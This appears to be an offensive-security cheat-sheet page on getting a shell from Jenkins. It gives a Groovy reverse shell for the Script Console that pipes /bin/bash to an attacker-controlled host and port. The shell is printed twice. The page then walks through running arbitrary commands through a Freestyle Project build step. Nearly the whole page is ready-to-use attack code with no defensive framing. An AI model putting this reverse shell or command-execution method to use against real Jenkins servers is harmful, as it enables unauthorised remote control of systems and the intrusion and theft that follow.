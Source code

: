 ```yaml
---
title: Jenkins
parent: Shell (Reverse/Others)
layout: default
nav_order: 9
---
```


Manage Jenkins -> Script Console

Change host, port, cmd (if windows change /bin/bash to cmd)


```
String host="host"; int port=port;String cmd="/bin/bash"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Backup:
```
String host="IP";

int port=PORT;

String cmd="/bin/bash";

Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Alternative

1. Go to New Item-> Freestyle Project -> Name it anything you want.

2. Go to Build (or Build Triggers)-> under Build Section, select Execute Windows Batch Command from dropdown.

3. When command box appear can type in commands already like whoami, curl, powershell etc.

4. Click save, then click Build Now on the left.

5. On left side bottom, a new Build History will appear. Click on that (usually #1) and click Console Output on the left to see the output.
